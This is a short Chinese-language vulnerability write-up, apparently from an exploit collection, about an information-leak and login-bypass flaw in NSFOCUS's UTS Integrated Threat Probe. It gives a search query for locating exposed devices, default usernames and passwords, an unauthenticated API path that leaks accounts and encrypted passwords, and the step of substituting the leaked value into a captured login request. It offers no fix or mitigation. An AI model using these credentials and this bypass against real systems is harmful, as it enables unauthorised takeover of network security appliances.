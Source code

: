 # 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

# 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

```
绿盟 UTS综合威胁探针
```

## 网络测绘

```
app="NSFOCUS-UTS综合威胁探针"
```

## 漏洞复现

默认口令

```
admin/Nsfocus@123
auditor/auditor
```

登陆页面

![image-20220525150142447](/images/202205251501583.png)

验证POC

```
/webapi/v1/system/accountmanage/account
```

![image-20220525150243440](/images/202205251502510.png)

这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统

![](/images/202205251503644.png)

![](/images/202205251503926.png)

